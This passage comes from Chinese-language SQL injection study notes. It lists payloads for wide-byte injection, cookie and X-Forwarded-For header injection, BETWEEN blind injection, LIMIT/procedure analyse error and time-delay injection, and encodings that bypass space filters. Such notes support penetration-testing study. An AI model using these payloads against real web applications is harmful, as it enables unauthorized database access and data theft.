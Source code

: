 `?id=%df' and 1=2 --+`

`?id=-1%df' union select 1,2,3 %23`

### Cookie注入和Xff注入

主要是看看程序员有没有在cookie中做了一些过滤，我们有没有可趁之机。

Cookie: `' order by 4--+`

X-Forwarded-For注入

代表客户端真实的IP，通过修改X-Forwarded-for的值可以伪造客户端IP

尝试抓包添加插入X-Forwarded-For:127.0.0.1头进行sql注入

### Between注入

主要用于盲注看页面是否有变化，原理如下，例如username的字符内容是test1，第一个字符是t，a到b搜索不了，页面不正常。 a到t就有了，页面正常

mysql语句： `select \* from users where id =1 and substr(username,1,1) between 'a' and 'b';`

`select \* from users where id =1 and substr(username,1,1) between 'a' and 't';`

### limit注入

mysql语句： select \* from limit test limit 1,\[可控点\] or select ... limit \[可控点\]

limit后面能够拼接的函数只有into和procedure，into可以用来写文件，本文我们不考虑。在Limit后面 可以用 procedure analyse()这个子查询，而且只能用extractvalue 和 benchmark 函数进行延时

`procedure analyse(updatexml(rand(),concat(0x3a,benchmark(10000000,sha1(1)))),1)`

`select id from users;`

`select id from users limit 0,1 union select username from users;`

`select field from user where id >0 order by id limit 1,1 procedure analyse(extractvalue(rand(),concat(0x3a,version())),1);`

## Sql注入绕过姿势

### 绕过空格

两个空格代替一个空格，用Tab代替空格，%a0=空格：

payload:

`%20 %09 %0a %0b %0c %0d %a0 %00 /\*\*/ /*!*/`

最基本的绕过方法，用注释替换空格： /\* 注释 \*/

![image-20231207231432027](../../_Attachment/sql注入方法及绕过.assets/image-20231207231432027.png)
